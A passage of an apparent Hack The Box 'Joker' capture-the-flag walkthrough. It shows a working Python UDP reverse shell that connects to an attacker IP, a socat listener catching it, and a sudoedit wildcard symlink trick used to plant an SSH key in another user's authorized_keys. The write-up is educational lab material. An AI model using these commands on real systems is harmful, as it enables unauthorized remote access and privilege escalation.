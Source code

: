 Okay so here we can see on the line with `OUTPUT` that any new outbound TCP connection is explicitly dropped. So what are other options for a shell? Well it just so happens that someone has already made a UDP reverse shell with python [here](https://github.com/infodox/python-pty-shells/blob/master/udp_pty_backconnect.py). Which before this box, I did not know was even possible. 

We won't be able to use netcat to catch a UDP shell so we'll have to use `socat` as specified in the comments in the python script. After we setup our listener we run our shell in the console.

```
>>> import subprocess
>>> subprocess.Popen(["python", "-c", 'import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect(("10.10.14.10", 100)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); os.putenv("HISTFILE","/dev/null"); pty.spawn("/bin/bash"); s.close();'])
<subprocess.Popen object at 0x7fbf709745d0>
```

```
kali:~/htb/joker# socat file:`tty`,echo=0,raw  udp-listen:100
werkzeug@joker:~$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
```

A good thing to get in the habit of is going ahead and spawning a tty after getting a shell. Let's do that here with python.

```
werkzeug@joker:~$ python -c 'import pty; pty.spawn("/bin/bash")'

```

### Privilege Escalation

Unfortunately we aren't able to grab the user.txt flag in alekos' home directory so we will need to escalate first. Let's see if our current user has any sudo permissions.

```
werkzeug@joker:/home/alekos$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```

Editing a layout.html file doesn't help us much, but the asterisks look interesting and there's probably a way to exploit those wildcards. It just so happens that's exactly what we can do.

<https://www.exploit-db.com/exploits/37710/>

In the exploit linked, they explain that sudoedit does not check the full path if a wildcard is used twice. So to exploit that, they create a symbolic link which points to `/etc/shadow`. Doing this for us won't really work for us since we only have sudoedit permissions as alekos and not root. So instead what we can do is create a symbolic link to alekos ssh authorized keys file and edit the file to add in our public ssh key. 
